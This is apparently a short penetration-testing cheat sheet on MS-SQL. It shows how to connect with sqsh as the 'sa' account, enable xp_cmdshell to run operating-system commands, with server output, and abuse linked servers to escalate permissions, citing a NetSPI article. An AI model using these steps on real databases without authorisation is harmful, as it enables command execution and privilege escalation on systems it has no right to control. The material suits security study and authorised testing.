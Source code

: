 # MS-SQL Databases

## Connecting to the Database

```
sqsh -S 192.168.0.6  -U sa
```

## xp\_cmdshell

```sql
1> exec sp_configure 'show advanced options', 1 
2> go 
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0) 
1> reconfigure 
2> go 
1> exec sp_configure 'xp_cmdshell', 1 
2> go 
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0) 
1> reconfigure 
2> go
```

```sql
1> exec master..xp_cmdshell 'whoami' 
2> go
```

## Server Links

The best reference for exploiting server links is [SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/).  They're not hard to pull off and can allow you to escalate your permissions quite easily.  However, do note that you should absolutely use rpc\_out if it's enabled.

Since OpenQuery can only satisfy user queries, stored procedures or user creation is not possible and makes your escalation path much more difficult.

